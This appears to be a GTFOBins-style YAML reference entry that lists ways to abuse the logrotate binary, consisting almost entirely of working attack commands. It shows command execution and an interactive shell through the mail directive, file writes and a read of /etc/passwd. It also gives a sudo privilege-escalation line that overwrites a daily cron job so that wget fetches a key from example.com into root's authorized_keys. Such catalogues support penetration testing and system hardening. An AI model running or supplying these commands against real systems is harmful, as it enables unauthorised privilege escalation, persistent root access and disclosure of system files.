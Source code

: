 ```yaml
---
functions:
  command:
    - description: Requires a logrotate policy which uses the `mail` directive. A hash should be used as the final character in the command, as it is run with a few arguments.
      code: |
        logrotate -m "/usr/bin/id &> /tmp/output #" -v -f logrotate.policy
  shell:
    - description: Requires a logrotate policy which uses the `mail` directive.
      code: |
        logrotate -m "/usr/bin/bash -i #" -v -f logrotate.policy
  file-write:
    - description: Creates or overwrites the file with the exact text `logrotate state -- version 2`
      code: |
        logrotate -s /tmp/file logrotate.policy
    - description: Creates or overwrites the file with junk data in combination with arbitrary data.
      code: |
        logrotate -l /tmp/file helloworld
  file-read:
    - description: Reads the first 'word'.
      code: |
        logrotate /etc/passwd
  sudo:
    - description: If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access. Note that this will overwrite `/etc/cron.daily/man-db` with a cronjob.
      code: sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;wget https://example.com/ssh.key -O /root/.ssh/authorized_keys2; exit 0;'
---
```

